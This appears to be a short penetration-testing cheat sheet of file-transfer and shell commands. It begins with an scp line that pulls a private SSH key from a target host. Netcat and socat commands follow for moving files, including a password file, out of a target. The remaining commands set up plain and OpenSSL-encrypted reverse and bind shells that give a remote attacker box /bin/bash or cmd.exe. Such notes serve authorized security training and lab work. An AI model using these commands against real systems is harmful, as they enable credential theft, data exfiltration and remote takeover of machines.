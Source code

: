 #### scp
```bash - kali
scp -P 22 <USER>@$TARGET:/home/git/.ssh/id_rsa .
```

#### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Reverse Shells
```
socat -d -d TCP4-LISTEN:443 STDOUT
```

```
socat TCP4:$TARGET:443 EXEC:/bin/bash
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```




